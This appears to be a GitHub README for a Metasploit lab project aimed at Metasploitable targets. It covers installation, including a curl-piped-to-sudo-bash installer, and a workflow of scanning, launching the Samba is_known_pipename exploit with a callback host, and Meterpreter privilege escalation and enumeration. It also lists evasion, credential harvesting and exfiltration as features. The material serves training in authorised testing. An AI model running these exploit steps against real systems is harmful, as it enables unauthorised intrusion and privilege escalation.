# Metasploit Penetration Testing Project

<div align="center">


**A comprehensive penetration testing project demonstrating advanced Metasploit Framework exploitation techniques**

[Features](#-features) • [Installation](#-installation) • [Usage](#-usage) • [Documentation](#-documentation) • [Screenshots](#-screenshots)

</div>

---

## 📋 Table of Contents

- [Overview](#-overview)
- [Features](#-features)
- [Prerequisites](#-prerequisites)
- [Installation](#-installation)
- [Usage](#-usage)
- [Project Structure](#-project-structure)
- [Screenshots](#-screenshots)
- [Documentation](#-documentation)
- [Security & Ethics](#-security--ethics)
- [Contributing](#-contributing)
- [License](#-license)

## 🎯 Overview

This project demonstrates advanced penetration testing methodologies using the Metasploit Framework. It includes comprehensive exploitation techniques, post-exploitation activities, and security assessment procedures suitable for cybersecurity professionals and students.

The project covers:
- **Vulnerability Assessment**: Identifying and analyzing security weaknesses
- **Exploit Development**: Creating and deploying custom exploits
- **Post-Exploitation**: Maintaining access and gathering intelligence
- **Reporting**: Documenting findings and recommendations

## ✨ Features

- 🔍 **Comprehensive Vulnerability Scanning**: Automated detection of security vulnerabilities
- 💻 **Multi-Vector Exploitation**: Various attack vectors and payloads
- 🎯 **Post-Exploitation Modules**: Advanced techniques for maintaining access
- 📊 **Detailed Reporting**: Professional documentation of findings
- 🛡️ **Defense Evasion**: Techniques for bypassing security controls
- 🔐 **Credential Harvesting**: Secure handling and analysis of captured credentials
- 📈 **Network Pivoting**: Advanced lateral movement techniques

## 🔧 Prerequisites

Before you begin, ensure you have the following installed:

- **Kali Linux** or **Parrot Security OS** (recommended)
- **Metasploit Framework** (v6.0+)
- **Python 3.8+**
- **VirtualBox/VMware** (for target machines)
- **Metasploitable 2/3** (vulnerable target environment)

### System Requirements

- Minimum 4GB RAM (8GB recommended)
- 20GB free disk space
- Network connectivity for updates

## 📦 Installation

### 1. Clone the Repository

```bash
git clone https://github.com/RajaWasim100/metasploit-penetration-testing.git
cd metasploit-penetration-testing
```

### 2. Install Metasploit Framework

```bash
# On Kali Linux (pre-installed)
msfconsole --version

# Manual installation
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb | sudo bash
```

### 3. Update Metasploit

```bash
sudo msfupdate
```

### 4. Install Dependencies

```bash
# Install Python dependencies (if any)
pip3 install -r requirements.txt

# Update Metasploit modules
msfconsole -q -x "db_status; exit"
```

### 5. Setup Target Environment

1. Download Metasploitable 2/3 from [SourceForge](https://sourceforge.net/projects/metasploitable/)
2. Import into VirtualBox/VMware
3. Configure network settings (NAT or Bridged)
4. Note the target IP address

## 🚀 Usage

### Basic Workflow

1. **Start Metasploit Console**

```bash
msfconsole
```

2. **Initialize Database**

```bash
msf6 > db_status
msf6 > workspace -a metasploit_project
```

3. **Scan Target Network**

```bash
msf6 > db_nmap -sV -p 1-1000 <target_ip>
```

4. **Search for Exploits**

```bash
msf6 > search type:exploit platform:linux
```

5. **Select and Configure Exploit**

```bash
msf6 > use exploit/linux/samba/is_known_pipename
msf6 > set RHOSTS <target_ip>
msf6 > set LHOST <your_ip>
msf6 > exploit
```

### Advanced Techniques

#### Meterpreter Session Management

```bash
# Background current session
meterpreter > background

# List all sessions
msf6 > sessions -l

# Interact with session
msf6 > sessions -i <session_id>

# Upgrade to Meterpreter
msf6 > use post/multi/manage/shell_to_meterpreter
```

#### Post-Exploitation

```bash
# System information gathering
meterpreter > sysinfo
meterpreter > getuid

# Privilege escalation
meterpreter > getsystem

# Network enumeration
meterpreter > ipconfig
meterpreter > route
```

## 📁 Project Structure

```
metasploit-penetration-testing/
│
├── README.md                 # Project documentation
├── LICENSE                   # License file
├── .gitignore               # Git ignore rules
│
├── docs/                    # Documentation
│   ├── Claude_Metasploit_Complete_Tutorial.docx
│   └── methodology.md       # Testing methodology
│
├── images/                  # Screenshots and outputs
│   ├── IMG_0235.png         # Exploitation screenshots
│   ├── IMG_0236.png
│   └── ...
│
├── scripts/                 # Custom scripts (if any)
│   └── automation.sh
│
└── reports/                 # Generated reports
    └── sample_report.md
```

## 📸 Screenshots

### Exploitation Process

<div align="center">


*Initial vulnerability scan and reconnaissance*


*Exploit selection and configuration*


*Successful exploitation and shell access*


*Meterpreter session establishment*


*Payload execution and connection establishment*

</div>

### Post-Exploitation Activities

<div align="center">


*System enumeration and information gathering*


*Privilege escalation demonstration*


*Network pivoting and lateral movement*


*Process enumeration and system analysis*

</div>

### Advanced Techniques

<div align="center">


*Credential harvesting and analysis*


*Persistence mechanisms*


*Data exfiltration techniques*


*Advanced Meterpreter commands*


*Network reconnaissance and scanning*

</div>

### Additional Demonstrations

<div align="center">


*Multi-stage exploitation process*


*Post-exploitation module execution*


*Comprehensive security assessment results*

</div>

*For more screenshots, see the [images/](images/) directory*

## 📚 Documentation

Comprehensive documentation is available in the `docs/` directory:

- **Complete Tutorial**: See `docs/Claude_Metasploit_Complete_Tutorial.docx` for detailed walkthrough
- **Methodology**: Step-by-step penetration testing methodology
- **Best Practices**: Security testing guidelines and recommendations

## 🔒 Security & Ethics

### ⚠️ Important Disclaimer

This project is intended for **educational purposes only**. The techniques and tools demonstrated should only be used:

- ✅ In authorized penetration testing engagements
- ✅ In controlled lab environments
- ✅ For educational and research purposes
- ✅ With explicit written permission from system owners

### ❌ Do NOT Use For:

- Unauthorized access to systems
- Illegal activities
- Malicious purposes
- Any activity that violates laws or regulations

### Legal Compliance

Users are responsible for ensuring compliance with all applicable laws and regulations. The authors and contributors of this project are not responsible for any misuse of the information provided.

## 🤝 Contributing

Contributions are welcome! Please follow these guidelines:

1. Fork the repository
2. Create a feature branch (`git checkout -b feature/AmazingFeature`)
3. Commit your changes (`git commit -m 'Add some AmazingFeature'`)
4. Push to the branch (`git push origin feature/AmazingFeature`)
5. Open a Pull Request

### Contribution Guidelines

- Follow the existing code style
- Add comments for complex logic
- Update documentation as needed
- Test your changes thoroughly
- Ensure ethical use compliance

## 📄 License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## 👤 Author

**Raja Wasim**
- GitHub: [@RajaWasim100](https://github.com/RajaWasim100)
- LinkedIn: [Your LinkedIn](https://linkedin.com/in/yourprofile)
- Email: your.email@example.com

## 🙏 Acknowledgments

- Rapid7 for the Metasploit Framework
- The Metasploit community
- Metasploitable project maintainers
- All contributors and security researchers

## 📊 Project Status


---

<div align="center">

**⭐ If you find this project helpful, please consider giving it a star! ⭐**

Made with ❤️ for the cybersecurity community

</div>
